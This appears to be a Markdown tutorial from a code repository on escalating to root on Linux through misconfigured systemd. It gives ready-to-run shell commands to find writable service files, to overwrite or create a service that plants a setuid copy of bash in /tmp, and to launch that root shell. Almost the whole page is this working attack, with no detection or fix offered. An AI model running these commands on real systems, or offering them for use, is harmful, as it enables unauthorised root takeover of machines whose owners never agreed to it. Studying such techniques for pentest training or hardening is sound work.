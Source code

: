 # Privilege Escalation via SystemD Misconfigurations

## Overview
The `systemctl` binary is a command used in Linux systems to manage services through SystemD, such as Apache, MySQL, and SSH. Because of its impact on the system, it is generally reserved for privileged users, such as system administrators. However, misconfigured permissions for `systemctl` may allow attackers to escalate privileges.

---

## 1. Exploiting Writable SystemD Service Files

If a user has **write permissions** on a SystemD service file that runs as root, they can modify it to execute arbitrary commands.

### **Find writable service files:**
```sh
find /etc/systemd/system/ -type f -writable 2>/dev/null
```

### **Modify the service file:**
```sh
echo -e "[Service]\nExecStart=/bin/bash -c 'cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash'" | sudo tee /etc/systemd/system/vulnerable.service
```

### **Reload and restart the service:**
```sh
sudo systemctl daemon-reload
sudo systemctl restart vulnerable.service
```

### **Escalate privileges:**
```sh
/tmp/rootbash -p
```

---

## 2. Creating a New SystemD Service

If a user can **create a new service in `/etc/systemd/system/`** and also has **sudo privileges on `systemctl`**, they can escalate privileges.

### **Create a malicious service file:**
```sh
cat <<EOF > /etc/systemd/system/root.service
[Unit]
Description=Root Shell

[Service]
Type=simple
ExecStart=/bin/bash -c 'cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash'

[Install]
WantedBy=multi-user.target
EOF
```

### **Enable and start the service:**
```sh
sudo systemctl daemon-reload
sudo systemctl enable root.service
sudo systemctl start root.service
```

### **Escalate privileges:**
```sh
/tmp/rootbash -p
```

---

